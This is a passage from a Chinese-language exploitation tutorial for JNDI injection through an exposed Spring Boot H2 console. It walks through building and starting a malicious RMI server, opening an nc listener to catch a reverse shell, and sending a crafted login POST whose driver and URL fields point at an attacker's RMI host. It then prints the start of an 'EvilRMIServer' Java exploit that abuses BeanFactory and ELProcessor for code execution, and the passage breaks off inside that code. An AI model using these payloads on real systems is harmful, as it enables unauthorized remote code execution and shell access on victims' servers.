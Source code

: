 ```
mvn clean install
或者
javac xxxxxxx.java
jar -cvf  xxxx.jar -C src/ .
```



**步骤四：架设恶意 RMI服务**

指定开启RMI服务的ip地址，使用下面命令架设对应的 RMI服务：

```bash
java -Djava.rmi.server.hostname=xxx.xxx.xxx.xxx -jar RMIServer-0.1.0.jar
```



**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvvp 监听端口
```



**步骤六：发包触发 JNDI 注入**

根据实际情况，替换下面数据中的 `jsessionid=xxxxxx`、`www.example.com` 和 `RMI://your-vps-ip:port/jndi`

```bash
POST /h2-console/login.do?jsessionid=xxxxxx
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Referer: http://www.example.com/h2-console/login.jsp?jsessionid=xxxxxx

language=en&setting=Generic+H2+%28Embedded%29&name=Generic+H2+%28Embedded%29&driver=javax.naming.InitialContext&url=rmi://your-vps-ip:port/jndi&user=&password=
```



##### 利用实例

访问目标站点的/h2-console页面，url会跳转到/h2-console/login.jsp?jsessionid=10f21eec1f912ae36cd39c55740101b5

![image-20210830204241737](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210830204241737.png)

这里的开启RMI服务JAVA代码如下:

反弹shell到192.168.233.242的1234端口

```
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 8090");//RMI服务监听地址为8090
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
```
